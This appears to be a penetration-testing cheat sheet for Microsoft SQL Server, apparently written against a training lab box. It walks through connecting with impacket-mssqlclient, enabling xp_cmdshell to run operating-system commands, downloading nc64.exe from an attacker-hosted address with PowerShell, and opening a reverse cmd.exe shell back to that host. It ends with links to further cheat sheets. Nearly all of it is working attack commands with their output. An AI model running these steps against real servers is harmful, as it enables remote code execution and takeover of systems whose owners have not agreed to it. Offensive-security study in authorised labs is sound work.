 # MS SQL

## Remote MS SQL Server Instance

Connect using the impacket mssqlclient tool

```bash
impacket-mssqlclient dbusername:password@10.123.32.1
```

Auth with Windows creds

```bash
impacket-mssqlclient HOSTNAME/user:password@10.123.32.1 -windows-auth
```

## Basic shell with xp_cmdshell

Check if we're an admin

```sql
SQL> SELECT is_srvrolemember('sysadmin');
```

Enable it (if needed)

```sql
SQL> EXEC sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

Test it

```sql
SQL> xp_cmdshell whoami
output                                                                             
--------------------------------------------------------------------------------   
archetype\user
NULL                                                                               
```

## Get a full reverse shell

Use xp_cmdshell to download e.g. netcat and connect to our host

```sql
-- outputs shortenened for brevity!

-- check our current working directory
SQL> xp_cmdshell "powershell -c pwd"
C:\Windows\system32

-- note that in this example we're hosting the nc64.exe binary ourselves and grabbing it using powershell's wget
SQL> xp_cmdshell "powershell -c cd C:\Users\Dave\Downloads; wget http://10.10.14.153:8888/nc64.exe -outfile nc64.exe"

-- use it to connect to a listener
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.153 1234"
```


## Cheatsheets & further reading

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql